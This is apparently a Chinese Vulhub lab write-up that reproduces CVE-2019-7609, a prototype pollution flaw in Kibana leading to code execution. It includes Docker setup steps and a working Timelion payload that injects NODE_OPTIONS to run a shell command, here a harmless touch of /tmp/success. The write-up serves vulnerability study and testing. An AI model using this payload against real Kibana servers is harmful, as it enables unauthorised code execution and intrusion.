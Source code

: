 # Kibana 原型链污染导致任意代码执行漏洞 CVE-2019-7609

## 漏洞描述

Kibana 为 Elassticsearch 设计的一款开源的视图工具。其5.6.15和6.6.1之前的版本中存在一处原型链污染漏洞，利用这个漏洞我们可以在目标服务器上执行任意JavaScript代码。

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2019-7609
- https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/
- https://slides.com/securitymb/prototype-pollution-in-kibana/#/4

## 环境搭建

Vulhub启动环境前，需要先在Docker主机上执行如下命令，修改`vm.max_map_count`配置为262144：

```
sysctl -w vm.max_map_count=262144
```

之后，执行如下命令启动Kibana 6.5.4和Elasticsearch 6.8.6：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:5601`即可看到Kibana页面。

## 漏洞复现

原型链污染发生在“Timelion”页面，我们填入如下Payload：

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("/bin/touch /tmp/success");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

![image-20220226195128526](images/202202261951761.png)

成功后，再访问“Canvas”页面触发命令`/bin/touch /tmp/success`，可见`/tmp/success`已成功创建：

![image-20220226195304443](images/202202261953511.png)